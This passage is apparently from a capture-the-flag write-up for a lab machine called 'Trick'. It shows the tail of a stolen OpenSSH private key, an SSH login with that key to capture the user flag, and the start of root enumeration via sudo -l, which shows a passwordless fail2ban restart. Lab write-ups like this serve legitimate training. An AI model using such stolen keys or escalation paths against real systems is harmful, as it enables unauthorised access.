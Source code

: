 ```bash
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Login and grab ``user.txt``:
```bash
➜  trick ssh michael@10.129.37.48 -i michael-id_rsa 
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ id && hostname && cat user.txt 
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
trick
6c4275462016ada1fe28be5396666965
```

**NOTE:** Michael is a part of group `security`

----------------

# ROOT
### Step 1
Enumerate the user space and see if we find anything sensitive.

**Sudo -l:**
```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
